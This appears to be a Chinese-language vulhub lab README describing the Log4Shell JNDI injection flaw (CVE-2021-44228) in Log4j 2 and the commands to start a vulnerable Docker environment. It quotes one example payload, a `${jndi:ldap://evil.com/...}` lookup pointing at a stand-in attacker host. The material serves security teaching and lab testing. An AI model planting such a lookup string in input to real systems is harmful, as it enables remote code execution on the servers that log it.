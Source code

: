 # Apache Log4j 2

**Apache Log4j 2** 是 Apache 软件基金会开发和维护的一个高性能、灵活和可靠的 Java 日志框架，是 Log4j 的下一代产品。它广泛用于企业级 Java 应用的日志记录与分析。

JNDI（Java Naming and Directory Interface，Java 命名和目录接口）是 Java 平台提供的一套 API，用于统一访问不同类型的命名和目录服务。

RMI 即 Remote Method Invocation（远程方法调用），是 Java 提供的一种远程通信机制，允许一个 Java 程序调用另一个 Java 虚拟机（JVM）中对象的方法，就像调用本地对象一样。

## Log4shell(CVE-2021-44228)

在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于 `${jndi:ldap://evil.com/example}`的 lookup 用于进行 JNDI 注入，执行任意代码。

```bash
cd vulhub/log4j/CVE-2021-44228
docker compose up
```

## 参考

<https://tttang.com/archive/1378/>
